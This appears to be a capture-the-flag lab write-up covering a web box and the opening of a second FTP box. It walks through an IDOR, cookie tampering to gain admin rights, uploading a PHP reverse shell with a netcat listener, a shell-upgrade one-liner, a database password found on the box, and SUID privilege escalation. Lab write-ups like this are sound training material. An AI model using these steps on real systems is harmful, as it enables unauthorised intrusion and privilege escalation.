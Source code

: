 ![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/59839b59-15ea-429e-94e8-63090e1b6e7a)

This what we will do today :)
1. With what kind of tool can intercept web traffic? 
This will be just: proxy

2. What is the path to the directory on the webserver that returns a login page? 
For this kind of enumeration i recomend to use: feroxbuster, but in this lab this doesn't work. I turn on the BurpSuite and also proxy, refresh the page and traffic some packiet, there was /cdn-cgi i insert this in ffuf and i got the /cdn-cgi/login, this is answer for the question.

3. What can be modified in Firefox to get access to the upload page? 
This will be a: cookie 

4. What is the access ID of the admin user? 
Here we need to find the IDOR, i log in as a guest, and there we can see on the navbar, account i go there and in the URL you can see something intresting http://10.129.213.188/cdn-cgi/login/admin.php?content=accounts&id=2 i tryed change this from 2 to 1 and i got the Cookie-user: 34322

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/c8690ed3-953e-4c4b-b63c-8cbb4ba4b17c)

5. On uploading a file, what directory does that file appear in on the server? 
Again i used ffuf to do some recon, to find the directory, after few secend i did it, here's the results:
This will be /uploads

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/06067e2c-e923-4675-9630-ee955d15f16c)

6. What is the file that contains the password that is shared with the robert user? 
We need to step back little bit, the target is upload the reverse-shell, first what i did is turn on the burp and intercept the traffic. Then change the in Cookie=user: 2233 role=guest to, Cookie=user: 34322 role=admin, you will get access as a admin, then cp on your computer the reverse-shell ~by this command: cp /usr/share/webshells/php/php-reverse-shell.php ~

You need to open with nano or vim, and change this paramiter: $ip, on your own ip.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/0e210008-ffd0-4c87-8d24-74181ad3cdb6)

If u change, let's go upload this RCE :P, but rember to change the Cookie=user:, role= without this u can't upload file on the server. If u did this, you can see the announcement  The file php-reverse-shell.php has been uploaded. 
No go to the /uploads, before that rember to turn on the netcat -lvnp 1234 to get a RCE. Something was wrong, i tryed to go /uploads be only what i can see is Forbidden, then /uploads/php-reverse-shell.php but still nothing, i tryed again upload this RCE and i got this :P
Rember to google better shell python and insert in your shell: python3 -c 'import pty; pty.spawn("/bin/bash")'

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/1b600a43-7e46-43fc-acd8-94412accdd5b)

7. What is the file that contains the password that is shared with the robert user? 
I don't did any recon, i got the RCE and there i foud this, the file that contains the password is db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

8. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? 
The answer is: find

9. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? 
The answer is: root, you can check this by command ls -la

10. What SUID stands for? 
This we need to google, because i have no idea what can mean this acronym:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/ec4ca946-f826-44c3-a21f-2a687ab2dac1)

11. What is the name of the executable being called in an insecure manner? 
I analyz the Provide Bug ID: and there only 3, but when i insert 4, i can see this: cat: /root/reports/4: No such file or directory, now we know script read the file only, now we need to figure out how we can use this to get access by root.

12. Submit user flag 
By before this, here's the user.txt ![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/ddf8e1d3-2577-40c8-9fa1-bfc4acd060a4)

13. Submit root flag
Here's the way how you can exploit it.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/20ee9bff-d43a-42bb-92cf-e823d0eb0b7a)

And now u have a access as root.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/20cf4eda-d02b-4088-a4a5-dc36f5848f65)
![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/9b0e178d-9c91-4994-a0c0-7a5bd8620dd6)


The next lab:

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/0cce350a-6377-44b4-9827-26b64dfa8fad)

1. Besides SSH and HTTP, what other service is hosted on this box?
I did a scan
There no many port's only 3, SSH, HTTP, FTP. But you can see, we can log in as Anonymous to FTP.

![obraz](https://github.com/Anogota/Don-t-forget-to-contemplate/assets/143951834/c115a783-7036-4319-b81f-49c523403107)

2. This service can be configured to allow login with any password for specific username. What is that username? 
We can see on the scan, the answer is Anonymous
